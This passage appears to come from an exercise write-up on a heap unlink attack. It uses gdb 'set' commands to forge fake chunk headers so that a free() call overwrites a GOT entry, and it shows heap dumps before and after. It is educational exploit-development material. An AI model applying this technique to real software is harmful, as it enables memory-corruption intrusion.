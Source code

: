 > **So to summarize:**
> 1. We change the size of the block we are going to free `0x804c054=100`. 
> 2. We create a fake free chunk before our current one to trigger an `unlink` and overwrite the GOT, `0x804c044=0x11`,`0x804c048=0x804b128-12`, `0x804c04c=0x804c010`. 
> 3. And we created two fake chunk afterwards, where the second one says about the previous that it is in use `0x804c0c8=0x11`. Thus not triggering another unlink:
```bash
set {int}0x804c0b8=0x10
set {int}0x804c0c8=0x11
```

---

Here is the heap after the last `strcpy` call:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x43434343	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```
Nothing happend of course, it's normal. So next we will send this modified heap data before calling the first `free(c)`. Here is the full gdb `set` command:
```bash
set {int}0x804c050=0x00000010
set {int}0x804c054=100
set {int}0x804c044=0x11
set {int}0x804c048=0x804b128-12
set {int}0x804c04c=0x804c010
set {int}0x804c0b8=0x10
set {int}0x804c0c8=0x11
```

Examine the heap `x/56wx 0x804c000`, and here is the output, `*` indicate the changes `set` we made:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x43434343	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	*0x00000011*	*0x0804b11c*	*0x0804c010*
0x804c050:	*0x00000010*	*0x00000064*	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	*0x00000010*	0x00000000
0x804c0c0:	0x00000000	0x00000000	*0x00000011*	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```
